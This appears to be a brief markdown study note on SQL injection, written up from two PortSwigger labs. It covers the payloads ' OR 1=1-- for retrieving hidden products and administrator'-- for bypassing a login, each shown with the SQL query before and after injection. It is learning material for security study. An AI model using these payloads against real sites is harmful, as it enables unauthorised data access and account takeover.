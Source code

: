 # SQL Injections

## Where clause allowing retrieval of data

A SQL injection may start with ' or at least in the burp suite labs the single quote is required.

The where statement is executed succesfully, after injecting the payload the released flag is ignored; this returns all of the products regardless of its' release status.

Code:
<br>`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`<br>
`SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1`

Payload:<br>
`filter?category=Gifts'+OR+1=1--`<br>
'+OR+1=1--

Credit:<br>
[SQL retrieve data](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)

## Login bypass
Explantation:<br>
This payload is a more simple to understand. The username and password are used as variables in the SQL query. <br>If an application does not validiate/sanitize the input an attacker can inject their own SQL and bypass. We bypass the login by removing the password requirement.<br>

Code:<br>
`SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'`<br>
<br>`SELECT * FROM users WHERE username = 'administrator'--' AND password = ''`<br>
<br>Payload:
<br>`username=administrator%27--&password=hello`<br>
Username field = "adminstrator'--"<br>
Credit:<br>
[SQL Login bypass](https://portswigger.net/web-security/sql-injection/lab-login-bypass)
